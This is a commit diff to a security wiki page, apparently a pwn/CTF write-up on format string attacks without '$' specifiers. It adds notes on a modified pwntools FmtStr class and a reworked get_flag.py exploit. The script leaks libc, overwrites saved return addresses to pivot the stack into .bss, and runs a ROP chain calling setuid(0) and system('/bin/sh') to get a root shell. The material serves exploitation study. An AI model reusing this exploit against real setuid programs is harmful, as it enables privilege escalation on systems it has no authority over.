

Before and after one commit to ismailbozkurt/Dreamer-Wiki, an MkDocs documentation site: the page built from docs/Pwn/Linux/Format String Vulnerabilities/13-Format-String-Attack-No-Dollar-Payload.md, in a window 1280 px wide and 1400 px high, scrolled down 2984 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update No-Dollar-Payload

````diff
--- a/docs/Pwn/Linux/Format String Vulnerabilities/13-Format-String-Attack-No-Dollar-Payload.md
+++ b/docs/Pwn/Linux/Format String Vulnerabilities/13-Format-String-Attack-No-Dollar-Payload.md
@@ -38,6 +38,20 @@
 
 
 ### custom FmtStr Class (FmtStrIso)
+
+There is nothing fancy here.
+Borrowed [FmtStr Class](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/fmtstr.py#L914) from pwntools and updated some fields.
+
+Notes about the updated fields:
+
+- `find_offset()` normally works with `$`-style format specifiers. This version uses old-school detection: a hardcoded 200× `%p|` sequence.
+
+- The same change was made in `leak_stack()`.
+
+- `execute_writes()` uses `no_dollar=True` by default (was `False` in pwntools).
+
+- Added `_leaker` dereference support. It’s not strictly necessary.
+
 
 ```python
 #...
@@ -177,9 +191,38 @@
 
 ### get_flag.py
 
-The PoC unstable. To gathering flag, it should be executed 2-3 times.
+The PoC was a mess. I either need to reconstruct it or change the target.
 
-The PoC totally mess. Reconstruct or change the target!
+At one point, I could have just set the gadgets and called them directly, but instead I built a workaround. I still have some questions in my mind that I haven’t dug into yet. When I tried to write during the **again.\n** phase, the binary crashed.
+
+So I kept it simple and wrote the ROP payload during the **exit.\n** phase instead.
+
+Here’s what happens:
+
+- First, I overwrite the **function’s saved return address** with the function itself. Because there was a padding issue, I added a `ret` instruction to align the stack to 16 bytes.
+
+- Next, when the function’s saved return address gets pushed 8 bytes onto the stack, I overwrite it with a `pop rsp` gadget and the `.bss` address.
+```csharp
+Higher addresses
+│ … caller …
+├───────────────────────────────
+│ saved RBP              (old_rbp)
+├───────────────────────────────
+│ [rbp+0x08] = ret              ← saved RIP # -> 1st turn saved RIP
+├───────────────────────────────
+│ [rbp+0x10] = exe.sym.func     ← saved RIP # -> 1st turn saved RIP+8
+├───────────────────────────────
+│ [rbp+0x18] = pop_rsp          ← saved RIP # -> 2nd turn saved rip
+├───────────────────────────────
+│ [rbp+0x20] = bss              ← data for pop_rsp
+├───────────────────────────────
+│   … locals …
+└───────────────────────────────
+```
+
+- On the second run, the ROP gadgets are already placed at the `.bss` address. So when control flows there, the gadgets are ready to execute.
+
+- Offset, padlen and numbwritten values detected same as previous posts.
 
 ```python
 from pwn import *
@@ -219,11 +262,8 @@
 # GDB will be launched if the exploit is run via e.g.
 # ./exploit.py GDB
 gdbscript = '''
-brva 0x178f
-#brva 0x1794
+brva 0x17b2
 continue
-si
-nextret
 '''.format(**locals())
 
 #===========================================================
@@ -270,6 +310,7 @@
 
 io.recvuntil(b'input is:')
 io.recvline()
+#info(f'Here: {io.recvline().strip().split(b"|")}')
 
 leaks = io.recvline().strip().split(b'|')
 
@@ -285,46 +326,58 @@
 success(f'LIBC Base Addr:{libc.address:#x}')
 
 ###############################
-##### overwrite part ######
+##### overwrite part ##########
 ###############################
-
-stdout_got_offset   = 0x4020
-stdout_got          = exe.address + stdout_got_offset
 
 bss_offset = 0x4800
 bss = exe.address + bss_offset
+success(f'BSS Addr: {bss:#x}')
 
 rop = ROP([exe, libc])
 #### overwrite gadgets for shell ####
 
 pop_rsp = rop.find_gadget(['pop rsp', 'ret'])[0]
-pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
 ret     = rop.find_gadget(['ret'])[0]
 binsh = next(libc.search(b'/bin/sh\0'))
 
-def exec_fmt(payload: bytes) -> bytes:
+def exec_fmt_again(payload: bytes) -> bytes:
+    io.sendafter(b'again.\n', payload)
+
+
+def exec_fmt_exit(payload: bytes) -> bytes:
     io.sendafter(b'exit.\n', payload)
-    out = io.recv() or b""
-    return out
 
-f = FmtStrIso(exec_fmt, offset=22, padlen=1, numbwritten=0x5f)  # auto offset+padlen (no-$)
+#=========================================================#
+#================ Execute func one more time =============#
+#=========================================================#
+
+
+f_exit = FmtStrIso(exec_fmt_exit, offset=22, padlen=1, numbwritten=0x5f)  # auto offset+padlen (no-$)
+
+f_exit.write(rbp_leak, bss)
+f_exit.write(rbp_leak+8*1, ret)
+f_exit.write(rbp_leak+8*2, exe.sym.func)
+f_exit.write(rbp_leak+8*3, pop_rsp)
+f_exit.write(rbp_leak+8*4, bss)
+
+f_exit.execute_writes()
+
+#=========================================================#
+#================ setuid and system rop ==================#
+#=========================================================#
 
 rop.call('setuid', [0])
 rop.raw(ret)
 rop.call(libc.sym.system, [binsh])
+counter = 0
+
+exec_fmt_again(b'A'*16)
 
 for idx, c in enumerate(rop.build()):
-    f.write(bss+(8*idx), c)
+    f_exit.write(bss+(8*idx), c)
+    counter += 1
 
-f.write(rbp_leak+8, exe.sym.func+5) # overwrite saved return of func
-f.execute_writes()
-
-io.sendafter(b'again.\n', b'AAAAAAA')
-
-f.write(rbp_leak+24, pop_rsp) # overwrite printf ret on stack
-f.write(rbp_leak+8+24, bss)
-
-f.execute_writes()
+f_exit.execute_writes()
 
 io.interactive()
 ```
@@ -333,7 +386,7 @@
 
 ## TODO
 
-- [ ] Add already written stable exploit here.
+- [x] Add already written stable exploit here.
 - [ ] Add explanation
 
 ## References
````
Also changed, not shown: other parts of docs/Pwn/Linux/Format String Vulnerabilities/13-Format-String-Attack-No-Dollar-Payload.md (+3 -3 lines).
